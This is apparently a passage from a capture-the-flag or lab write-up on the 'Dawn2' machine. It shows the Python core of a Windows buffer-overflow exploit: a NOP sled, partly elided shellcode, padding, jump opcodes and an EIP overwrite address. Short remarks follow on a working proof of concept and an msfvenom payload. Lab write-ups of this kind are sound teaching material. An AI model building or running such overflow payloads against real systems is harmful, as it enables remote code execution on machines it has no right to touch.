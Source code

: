 ```
        NOPS = b"\x90" * 20
        SHELL =  b""
        SHELL += b"\xd9\xec\xbf\xc5\x91\xf7\xf7\xd9\x74\x24\xf4\x5e"
...
        SHELL += b"\x28\x18\xc8"
        CRASH2 = b"\x41" * (783 - (len(SHELL) + len(NOPS))) #Python does not do BEDMAS Hence the () overload.
        JMP = b"\xE9\xED\xFC\xFF\xFF"
        SRTJMP = b"\xEB\xF9\x90\x90"
        EIP = b"\xBA\x59\x58\x34"
        FILLER =b"\x43" * 128
        TERMINATE = b"\x00"
        buffer = NOPS + SHELL + CRASH2 + JMP + SRTJMP + EIP + FILLER + TERMINATE
        print (len(buffer)) # Debugging Size
```

The "guts" of the exploit should look something like that.

And...

![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-windowspoc.gif)

Nice! we have a working proof of concept. 

and just for a bit more fun...

![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-RickRolled.gif)

(I had to refactor the exploit into python2 for the msfvenom payload to work - don't ask, I'm not sure either, something something bytes and whitespace I think)
